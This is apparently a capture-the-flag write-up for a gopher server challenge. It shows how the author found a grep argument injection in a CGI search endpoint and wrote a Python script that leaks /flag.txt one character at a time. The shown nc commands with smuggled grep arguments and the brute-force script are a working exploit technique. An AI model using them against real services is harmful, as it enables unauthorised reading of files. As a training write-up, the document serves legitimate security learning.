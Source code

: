 ![alt text](./image.png)

We're given a gopher host 129.241.150.119:70.

We can talk to gopher with curl:

```
$ curl gopher://129.241.150.119:70/
i Wack-Gopherhole       TITLE   null.host       1
i               null.host       1
iWelcome to the WackAttack poem collection.             null.host       1
iThis is a collection of public domain odes.            null.host       1
i               null.host       1
i[[ Sun Oct 20 14:38:43 UTC 2024 ]]             null.host       1
i               null.host       1
hVisit WackAttack :)    URL:https://wackattack.eu       129.241.150.119 70
i               null.host       1
1All the poems  /poems  129.241.150.119 70
0My favorite poem       /poems/OdeComposedOnAMayMorningPoembyWilliamWordsworth.txt      129.241.150.119 70
i               null.host       1
7Search poems   /cgi/query.cgi  129.241.150.119 70
.
```

In /poems/OdeComposedOnAMayMorningPoembyWilliamWordsworth.txt we find that the flag is in /flag.txt.

Gopher is a very simple protocol so we can manually fuzz it with nc (curl rejects invalid inputs so it's no good for fuzzing).

```
.venv$ echo '/cgi/query.cgi?fjdklas kfjlas' | nc 129.241.150.119 70
! Searching for fjdklas kfjlas
Poems containing fjdklas kfjlas:
grep: kfjlas: No such file or directory
iFound 0 poems
```

As we can see we have a grep command injection.

I found no RCEs, but I was able to see if /flag.txt matches a given pattern

```
.venv$ echo '/cgi/query.cgi?wack{ /flag.txt' | nc 129.241.150.119 70 | grep 0flag.txt
0flag.txt       /poems/flag.txt 129.241.150.119 70
.venv$ echo '/cgi/query.cgi?fakeflag{ /flag.txt' | nc 129.241.150.119 70 | grep 0flag.txt
.venv$
```

From there I wrote a script to guess the flag character by character.

I noticed that the search query is a regex, so my script had to account for that by escaping special chars:

```
.venv$ echo '/cgi/query.cgi?wack{.* /flag.txt' | nc 129.241.150.119 70 | grep 0flag.txt  
0flag.txt       /poems/flag.txt 129.241.150.119 70
```

Final (unredacted 😅) solve script looked something like:

```python
import pituophis

def does_flag_start_with(start_of_flag):
    res = pituophis.get(host='129.241.150.119', path='/cgi/query.cgi', query='^' + start_of_flag + '.*} /flag.txt')
    return "Found 1 poems" in res.text()

# flag is regex encoded
start_of_flag = 'wack{'
import string

print('characters:', string.printable)

while '}' not in start_of_flag:
    for char in string.printable:
        if char == '*':
            char = "\\*"
        elif char == '.':
            char = "\\."
        elif char == '\\':
            char = "\\\\"
        if does_flag_start_with(start_of_flag + char):
            start_of_flag += char
            print(f"Found: {start_of_flag}")
            break

print(f"Final flag: {start_of_flag}")

```